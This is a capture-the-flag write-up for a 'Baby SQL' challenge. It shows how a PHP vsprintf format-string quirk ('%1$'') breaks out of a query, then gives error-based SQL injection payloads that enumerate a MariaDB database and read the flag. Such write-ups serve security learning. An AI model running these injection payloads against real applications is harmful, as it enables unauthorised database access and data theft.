 # Baby SQL

The tricksy bit here is the initial discovery of the format string vulnerability.

We can determine this by reviewing the source code and spotting that we are using PHP's `vsprintf` method once we accept user input. From there it's just a case of determining the correct format method to use to break out of the string and then performing basic database enumeration until we reach our goal (in this case the "flag")

---

## Establishing the vulnerability

Since we know we're dealing with `vsprintf` we can just check out the documentation for that method and see what's what. 

[https://www.php.net/manual/en/function.vsprintf.php](https://www.php.net/manual/en/function.vsprintf.php)

The most important part for our purposes is the method description:

> The format string is composed of zero or more directives: ordinary characters (excluding `%`) that are copied directly to the result and _conversion specifications_, each of which results in fetching its own parameter.
> 
> A conversion specification follows this prototype: `%[argnum$][flags][width][.precision]specifier`.

That is telling us that this thing accepts format string specifiers and it even gives us the order we need to put them in to have them properly parsed. It also tells us that we need to append our format string specifier with a `%` sign.

Checking out `argnum` we see the following:

> An integer followed by a dollar sign `$`, to specify which number argument to treat in the conversion.

So we now have 3 parts of our initial exploit string. We know we need a `%` sign to start with then the `argnum` is telling us we need an integer and a dollar sign `$`. 

```sql
%1$
```

Reading a little bit further down we can see that the flag then accepts a `'` 

> `'`(char)
>
> Pads the result with the character (char).

And if we run that against the target we get the following response:

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'admin')' at line 1
```

Wunderbar.

---

Once we've 

```sql
pass=%1$') UNION SELECT 1,extractvalue(rand(),concat(0x3a,(select+schema_name+from+information_schema.schemata)));# 
```


```sql
pass=%1$') UNION SELECT 1,extractvalue(rand(),concat(0x3a,(select+schema_name+from+information_schema.schemata limit 0,1)));# // now we iterate the 0,1 value to go through the tables 
```

```sql
pass=%1$') UNION SELECT 1,extractvalue(rand(),concat(0x3a,(select+schema_name+from+information_schema.schemata limit 1,1)));# // returns 
```

`XPATH syntax error: ':db_m412'`

Now we have a target database (we iterate through the additional db's just to confirm)

---

0x64625f6d343132 = db_m412 after conversion to ASCII Hex

```sql
pass=%1$') UNION SELECT 1,extractvalue(rand(),concat(0x3a,(select+table_name+from+information_schema.tables+where+table_schema=0x64625f6d343132 limit 0,1)));#
```

// same again, iterate the 0,1 (limiter) until we have a list of all the tables

totally_not_a_flag
users

---

```sql
pass=%1$') UNION SELECT 1,extractvalue(rand(),concat(0x3a,(select+column_name+from+information_schema.columns+where+table_schema=0x64625f6d343132 limit 0,1)));#
```

// iterate the value again

flag
username
password

---

```sql
pass=%1$') UNION SELECT 1,extractvalue(rand(),concat(0x3a,(select+flag+from+totally_not_a_flag)));#
```


And we get the flag! 

